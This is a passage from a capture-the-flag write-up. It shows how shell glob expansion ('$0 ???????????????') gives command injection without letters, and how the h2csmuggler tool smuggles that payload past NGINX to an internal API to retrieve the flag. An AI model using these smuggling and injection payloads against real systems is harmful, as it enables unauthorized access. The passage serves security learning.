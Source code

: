 ```bash
rm *
```

becomes:

```bash
rm file1 file2 file3...etc
```

BEFORE the command executes.

We can use this trick to execute commands AND supply filenames without needing to actually
type letters in the terminal. More specifically, we can do this:

```bash
$0 ???????????????
```

Where:

* `$0` -> holds the name of the script or command being executed. The one I'm **TRUSTING**
will give the flag based on the phrase: ***"I’ll answer you away"***
* `?` matches exactly one character -> 15 of them match `secret_flag.txt`

Putting this all together (with some grep magic of course), we end up with:

```bash
➜ python3 h2csmuggler.py -x "https://nopsctf-dcdefb599276-plotwist-1.chals.io/api/lordhttp" -XPOST -d '{"letter": "$0 ???????????????"}' "http://localhost/api/noopsy" | grep -oP N0PS{.*?}
N0PS{4nD_I_FE3l_50m37h1nG_5o_wR0nG_d01nG_7h3_r18h7_7h1nG}
```

Flag is: `N0PS{4nD_I_FE3l_50m37h1nG_5o_wR0nG_d01nG_7h3_r18h7_7h1nG}`

![Primeagen](https://media1.tenor.com/m/hYU0XdvEzmAAAAAC/theprimeagen-primeagen.gif)

## Conclusions

* The challenge exploited an h2c (HTTP/2 cleartext) request smuggling vulnerability to bypass NGINX access controls.
* HTTP/2 upgrade allowed sending unfiltered requests directly to the backend, circumventing proxy restrictions.
* Custom Python client using `hyper-h2` was needed due to limitations with standard HTTP/2 tools over TLS.
* The flag retrieval required understanding shell expansion and limited input filtering to craft a valid command injection payload.
* The writeup highlights the importance of protocol-level nuances in web security and proxy behavior.

## References

1. **Bishop Fox – H2C Smuggling Explained**
    * Blog post: [H2C Smuggling Request](https://bishopfox.com/blog/h2c-smuggling-request)
    * Video explainer: [YouTube: "Smuggling HTTP Requests with H2C"](https://www.youtube.com/watch?v=PFllH0QccCs)
